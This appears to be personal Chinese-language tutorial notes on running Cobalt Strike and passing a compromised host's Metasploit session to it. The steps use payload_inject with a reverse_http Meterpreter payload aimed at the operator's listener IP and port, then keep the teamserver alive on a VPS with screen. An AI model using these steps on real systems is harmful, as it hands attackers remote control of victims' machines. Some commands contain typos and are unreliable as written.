




---

---

#21-08-27 **Cobalt Strike**用法

cs可以在Ubuntu，centos，Windows2008,2012,2019，win7，win10，win11，都可以运行

只要可以执行 java -version 成功

centos安装  yum instal openjdk@13 unzip

cs4.2 最好使用jdk11以上

**1，bg 会话**

**2.调用payload_inject 模块**

use exploit/windows/local/payload_inject

**3.在该模块上配置与cobalt strike上为同样类型的payload**

set payload windows/meterpreter/reverse_http**（cs程序只支持http和https协议）**

**4.设置 DisablePayloadHandler 为 True，此选项会让 Metasploit Framework 避免在其内起一个 handler 来服务你的 payload 连接，也就是告诉 Metasploit Framework 说我们已经建立了监听器，不必再新建监听器了。**

set disablepayloadhandler true

**5.设置 lhost 和 lport 为 Cobalt Strike 的监听 IP 与端口**

set lhosts 192.168.21.43

set lport 8080

**6，运行run**

#cs在vps上如何后台运行

在vps上安装screen

apt install screen	

screen -S cs （随便起的名字）切换到screen 执行

screen 文件中写的默认端口是1998

 

然后再进入cs目录启动teamserver

强制切入 screen -rd cs
